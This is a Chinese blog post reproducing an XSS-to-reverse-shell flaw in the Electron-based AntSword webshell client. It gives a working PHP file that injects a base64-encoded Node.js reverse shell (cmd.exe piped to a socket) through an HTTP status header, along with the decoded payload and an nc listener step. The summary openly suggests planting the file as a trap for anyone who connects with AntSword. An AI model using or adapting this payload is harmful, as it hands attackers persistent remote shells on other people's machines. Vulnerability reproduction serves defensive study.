 ﻿---
layout: post
title: 漏洞复现：蚁剑 Electron XSS反弹shell复现
date: 2019-09-19
categories: blog
tags: [漏洞复现，蚁剑]
description: 蚁剑 Electron XSS
---

#### 一、环境
- antsword2.0.5以前，antsword使用了Electron，Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。
#### 二、复现过程
- phpstudy网站根目录添加webshell文件，ant.php，存在XSS
![](https://upload-images.jianshu.io/upload_images/15634342-be1d8183dc2cdc6f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- phpstudy网站根目录添加webshell文件，ant.php
```
<?php
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCg2Njc3LCAiMTI3LjAuMC4xIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTsKc2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
?>
```
- 特别需要注意webshell的内容是base64编码之后的，编码之前为

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(6677, "127.0.0.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
- 本地nc监听端口
![](https://upload-images.jianshu.io/upload_images/15634342-0ea84fbca44a39f0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 使用蚁剑访问webshell
![](https://upload-images.jianshu.io/upload_images/15634342-c19a800c6f860cdc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- webshell反弹成功
![](https://upload-images.jianshu.io/upload_images/15634342-15269de34a8f2e4d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### 三、总结
- 适用范围：挂一个webshell在服务器上，等别人用蚁剑来连，连接之后就算蚁剑关闭，shell仍存在

`参考链接：`[https://github.com/theLSA/CS-checklist](https://github.com/theLSA/CS-checklist)
`参考链接：`[https://www.anquanke.com/post/id/176379](https://www.anquanke.com/post/id/176379)













